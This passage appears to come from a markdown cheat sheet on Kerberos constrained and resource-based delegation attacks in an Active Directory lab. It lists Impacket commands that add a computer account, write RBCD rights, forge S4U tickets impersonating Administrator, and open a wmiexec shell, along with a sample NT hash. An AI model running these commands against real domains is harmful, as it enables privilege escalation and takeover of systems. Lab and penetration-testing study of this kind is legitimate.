 **Linux**
```shell
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'domain/username:password'
getST.py -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'domain/username:password' -altservice 'ldap/winterfell'
# then a kerbros ticket will be cached, we will export it
export KRB5CCNAME=/path/to/ticket
wmiexec.py -k --no-pass domain/user@service

```

### Without protocol transition

![Screenshot_4](https://github.com/user-attachments/assets/97af6de9-32ef-47f4-b5ab-bf7b7dffa23f)

**Linux**
```shell
# target machine: winterfall$
# machine with delgation rights: castelblack$ 
# our user: jojo
# created machine: house$


# add computer X (house)
addcomputer.py -computer-name 'house$' -computer-pass 'housepass' -dc-host 192.168.56.11 'domain/jojo:pass'

# Append value to the msDS-AllowedToActOnBehalfOfOtherIdentity, we need castelblack$ machine creds or any PowerfulUser creds who us able to edit msDS-AllowedToActOnBehalfOfOtherIdentity value on castelblack$ 
rbcd.py -delegate-from 'house$' -delegate-to 'castelblack$' -dc-ip 'DomainController' -action 'write' 'domain'/'PowerfulUser':'Password'

# Do the s4u2self followed by the s4u2proxy on castelblack (this is the classic RBCD attack)
getST.py -spn 'host/castelblack' -impersonate Administrator -dc-ip 192.168.56.11 domain/'house$':'housepass'

# s4u2proxy from constrained (castelblack) to target (winterfell) - with altservice to change the SPN in use, we must have castelblack$ creds
getST.py -impersonate "administrator" -spn "http/winterfell" -altservice "cifs/winterfell" -additional-ticket <'prev-obtained ticket'> -dc-ip 192.168.56.11 -hashes ':b52ee55ea1b9fb81de8c4f0064fa9301' domain/'castelblack$'

# export the ticket 
export KRB5CCNAME=/workspace/administrator@cifs_winterfell@NORTH.SEVENKINGDOMS.LOCAL.ccache 
wmiexec.py -k -no-pass north.sevenkingdoms.local/administrator@winterfell
```


## Resource-based constrained delegation
- **Resource Trust:** The resource server maintains a list of trusted services or computers that are allowed to delegate on behalf of users.

